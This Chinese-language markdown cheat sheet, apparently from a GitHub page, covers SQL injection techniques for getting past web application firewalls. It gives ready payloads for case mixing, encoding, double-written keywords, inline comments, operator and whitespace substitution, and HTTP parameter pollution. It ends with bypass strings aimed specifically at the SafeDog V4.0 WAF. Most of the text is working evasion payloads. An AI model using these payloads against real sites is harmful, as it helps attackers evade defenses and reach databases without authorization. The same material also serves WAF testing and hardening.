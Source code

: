 # SQL注入—WAF绕过

# SQL注入—WAF绕过

### `WAF拦截原理：WAF从规则库中匹配敏感字符进行拦截。`

![image.png](https://pic.imgdb.cn/item/64c5f2481ddac507cc26529e.jpg)

## 关键词大小写绕过

有的WAF因为规则设计的问题，只匹配纯大写或纯小写的字符，对字符大小写混写直接无视，这时，我们可以利用一点来进行绕过

```sql
union select ---> unIOn SeLEcT
```

## 编码绕过

针对WAF过滤的字符编码，如使用URL编码，Unicode编码，十六进制编码，Hex编码等

```sql
union select 1,2,3# ---> union%0aselect 1\u002c2,3%23
```

## 双写绕过

部分WAF只对字符串识别一次，删除敏感字段并拼接剩余语句，可以通过双写来进行绕过

```sql
UNIunionON

SELselectECT

anandd
```

## 换行(\N)绕过

```sql
select * from admin where username = \N union select 1,user() from admin
```

## 注释符内联注释绕过：

```sql
union selecte ---> /*!union*/ select
```

## 同义词替换

```
and ---> &&

or ---> ||

=(等于号)=<、>

空格 ---> %09、%0a、%0b、%0c、%0d、%20、%a0等

# %0a是换行，也可以替代空格
```

## HTTP参污染

对目标发送多个参数，如果目标没有多参数进行多次过滤，那么WAF对多个参数只会识别其中的一个

```sql
?id=1&id=2&id=3

?id=1/**&id=-1%20union%20select%201,2,3%23*/
```

## 安全狗 V4.0绕过

```sql
order by绕过：	%20/*//--/*/  

联合绕过：		union /*!--+/*%0aselect/*!1,2,3*/ --+

from绕过： 	/*!06447%23%0afrom*/
```
